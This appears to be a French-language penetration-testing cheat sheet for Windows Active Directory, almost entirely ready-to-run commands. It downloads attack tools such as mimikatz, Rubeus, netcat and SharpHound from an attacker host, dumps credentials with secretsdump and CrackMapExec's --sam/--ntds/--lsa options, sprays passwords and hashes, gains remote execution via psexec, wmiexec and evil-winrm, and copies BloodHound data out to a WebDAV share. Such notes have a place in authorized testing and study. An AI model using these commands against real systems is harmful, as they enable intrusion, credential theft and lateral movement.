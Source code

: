 ### Téléchargements utiles

    iwr -Uri http://192.168.50.100/winpeas.exe -Outfile .\winpeas.exe
    iwr -Uri http://192.168.50.100/adpeas.ps1 -Outfile .\adpeas.ps1
    iwr -Uri http://192.168.50.100/adpeas-light.ps1 -Outfile .\adpeas-light.ps1
    iwr -Uri http://192.168.50.100/nc.exe -Outfile .\nc.exe
    iwr -Uri http://192.168.50.100/mimikatz.exe -Outfile .\mimikatz.exe
    iwr -Uri http://192.168.50.100/Rubeus.exe -Outfile .\Rubeus.exe
    iwr -Uri http://192.168.50.100/PrintSpoofer.exe -Outfile .\PrintSpoofer.exe
    iwr -Uri http://192.168.50.100/JuicyPotatoNG.exe -Outfile .\JuicyPotatoNG.exe
    iwr -Uri http://192.168.50.100/Seatbelt.exe -Outfile .\Seatbelt.exe
    iwr -Uri http://192.168.50.100/Powercat.ps1 -Outfile .\Powercat.ps1
    iwr -Uri http://192.168.50.100/SharpHound.ps1 -Outfile .\SharpHound.ps1
    Import-Module ./Sharphound.ps1
    iwr -Uri http://192.168.50.100/PrivEscCheck.ps1 -Outfile .\PrivEscCheck.ps1
    Import-Module PrivEscCheck.ps1
    iwr -Uri http://192.168.50.100/Powerview.ps1 -Outfile .\Powerview.ps1
    Import-Module ./Powerview.ps1

### Commandes utiles

**Récupération de credentials**

    impacket-secretsdump DOMAINE/Tim:Mdp123@192.168.100.100
    

**Connexion à distance**

	krdc
    xfreerdp /v:192.168.100.100 /u:Tim /cert:ignore /d:DOMAINE /p:Mdp123
    rdesktop -u Tim 192.168.100.100
    evil-winrm -u Tim -p Mdp123 -i 192.168.100.100
    impacket-smbclient DOMAINE/Tim:'Mdp123'@192.168.100.100
    impacket-wmiexec DOMAINE/Tim:Mdp123@192.168.100.100
    impacket-psexec DOMAINE/Tim:Mdp123@192.168.100.100 powershell.exe
    
**CrackMapExec**

Protocoles à tester : SMB, WINRM, RDP, MSSQL, FTP, LDAP, SSH
<br /> Options à tester : --lsa, --sam, --ntds, --shares, --sessions,  --loggedon-users, ...

	crackmapexec smb adresses.txt -u tim -p Mdp123 --continue-on-success -d DOMAINE
	crackmapexec smb 192.168.100.100 -u users.txt -p Mdp123 --continue-on-success -d DOMAINE
	crackmapexec smb adresses.txt -u tim -H xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx --continue-on-success 
	crackmapexec smb adresses.txt -u users.txt -p passwords.txt --continue-on-success 
	crackmapexec smb 192.168.100.100 -u Tim -p Mdp123 --continue-on-success --local-auth
	crackmapexec smb adresses.txt -u users.txt -p passwords.txt --continue-on-success 

**Bloodhound** 

	 ~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ~/webdav
	 sudo neo4j start
	 bloodhound
	 -----
    iwr -Uri http://192.168.50.100/SharpHound.ps1 -Outfile .\SharpHound.ps1
    Import-Module .\SharpHound.ps1
    Invoke-BloodHound -CollectionMethod All
    net use * http://192.168.50.100
    cp 2023XXXXXXXXXX_BloodHound.zip Z:\
	-----
		MATCH (m:Computer) RETURN m
		MATCH (m:User) RETURN m
		MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
